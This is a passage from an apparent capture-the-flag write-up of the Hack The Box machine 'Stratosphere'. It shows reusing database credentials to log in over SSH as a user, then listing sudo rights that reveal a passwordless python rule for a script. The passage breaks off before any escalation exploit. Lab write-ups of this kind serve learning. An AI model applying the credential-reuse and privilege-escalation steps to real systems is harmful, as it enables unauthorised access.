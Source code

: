We see that `richard` have an user account on the system. Coincidence? I think not. 

Let's try the credentials we got from `mysql` on the `ssh` services. Remember port `22` is open.

```
root@kali:~/Desktop/HTB/Stratosphere# ssh richard@10.10.10.64 
richard@10.10.10.64's password: 
Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  1 10:33:19 2018 from 10.10.14.124
richard@stratosphere:~$ 

```

and we have a valid user. Wooohooooo

### User.txt

```
richard@stratosphere:~$ wc -c user.txt
33 user.txt
```

## Getting Root

Since we have credentials for a valid user. Why not start with `sudo -l` 

```
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py

```

>WOW running as root without passwd

### test.py

```
richard@stratosphere:~$ ls -la test.py
-rwxr-x--- 1 root richard 1507 Mar 19 15:23 test.py

```

> Note that we have no write access to test.py
